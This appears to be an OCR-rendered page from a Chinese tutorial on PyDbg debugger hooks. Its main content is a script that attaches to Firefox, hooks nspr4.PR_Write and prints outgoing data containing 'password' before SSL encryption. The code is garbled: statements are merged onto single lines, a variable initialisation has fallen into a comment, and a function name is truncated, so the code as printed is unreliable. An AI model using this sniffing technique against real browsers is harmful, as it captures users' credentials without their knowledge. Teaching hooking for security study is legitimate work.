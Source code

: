 ```py
def entry_hook( dbg, args ):
    # Hook code here
    return DBG_CONTINUE 
```

dbg 参数设置成有效的 pydbg 目标，args 接收一个列表，包含 hook 触发时接收到的参 数。

exit hook 回调函数有一点不同就是多了个 ret 参数，包含了函数的返回值(EAX 的值): def exit_hook( dbg, args, ret ):

```py
# Hook code here
return DBG_CONTINUE 
```

接下用实例看看如何用 entry hook 嗅探加密前的数据。

```py
#firefox_hook.py from pydbg import *
from pydbg.defines import * 
import utils
import sys
dbg = pydbg()
found_firefox = False
# Let's set a global pattern that we can make the hook
# search for
pattern = "password"
# This is our entry hook callback function
# the argument we are interested in is args[1] 
def ssl_sniff( dbg, args ):
    # Now we read out the memory pointed to by the second argument
    # it is stored as an ASCII string, so we'll loop on a read until
    # we reach a NULL byte buffer = ""
    offset = 0
    while 1:
        byte = dbg.read_process_memory( args[1] + offset, 1 ) 
        if byte != "\x00":
            buffer += byte offset += 1 continue
        else:
            break
    if pattern in buffer:
        print "Pre-Encrypted: %s" % buffer 
    return DBG_CONTINUE
# Quick and dirty process enumeration to find firefox.exe 
for (pid, name) in dbg.enumerate_processes():
    if name.lower() == "firefox.exe": 
        found_firefox = True
        hooks = utils.hook_container() dbg.attach(pid)
        print "[*] Attaching to firefox.exe with PID: %d" % pid
        # Resolve the function address
        hook_address = dbg.func_resolve_debuggee("nspr4.dll","PR_Wri 
        if hook_address:
            # Add the hook to the container. We aren't interested
            # in using an exit callback, so we set it to None. 
            hooks.add( dbg, hook_address, 2, ssl_sniff, None )
            print "[*] nspr4.PR_Write hooked at: 0x%08x" % hook_address 
            break
        else:
            print "[*] Error: Couldn't resolve hook address." 
            sys.exit(-1)
if found_firefox:
    print "[*] Hooks set, continuing process." 
    dbg.run()
else:
    print "[*] Error: Couldn't find the firefox.exe process." 
    sys.exit(-1) 
```